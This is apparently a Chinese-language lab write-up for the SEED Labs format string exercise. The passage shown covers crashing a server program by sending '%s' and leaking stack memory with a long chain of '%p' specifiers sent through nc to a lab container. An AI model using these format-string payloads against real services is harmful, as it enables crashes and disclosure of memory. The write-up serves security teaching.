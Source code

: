 ```yaml
---
layout:     post   				    
title:      SeedLab3 Format String			
subtitle:   
date:       2022-05-05 				
author:     慕念 						
header-img: img/seed_labs_b.png	
catalog: true 						
tags:								
    - SeedLab
---
```


## Task 1: Crashing the Program

首先发送一条benign message，看target container的输出：

```terminal
echo hello | nc 10.9.0.5 9090
```

![image-20220421145944067](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012317965.png)

task1要求crash the program，只需要输入`%s`即可，因为`printf`会将栈上的数据解析指针访问地址，即读了不可读的内容，所以会产生报错，程序崩溃：

```terminal
echo %s | nc 10.9.0.5 9090
```

![image-20220421145823915](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012317266.png)



## Task 2: Printing Out the Server Program’s Memory

栈的分布图:

<img src="stack.jpg" style="zoom:80%;" />

### Task 2.A: Stack Data

构造输入payload：

```terminal
echo AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p | nc 10.9.0.5 9090
```

`printf`中占位符`%p`的作用是将所指向的数据地址以十六进制的形式输出。所以当`printf`解析到第一个%p时会从栈顶指针esp+0x4的位置开始打印出栈上的数据，之后依次类推：

![image-20220421200232373](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220421200232373.png)

可以发现第一个`%p`打印出来的就是程序中输出的`target variable’s value: 0x11223344`，在第64个偏移处打印了`0x41414141`即输入的AAAA。说明输入的payload被保存在距离esp第64个偏移处（即buffer的起始地址）。

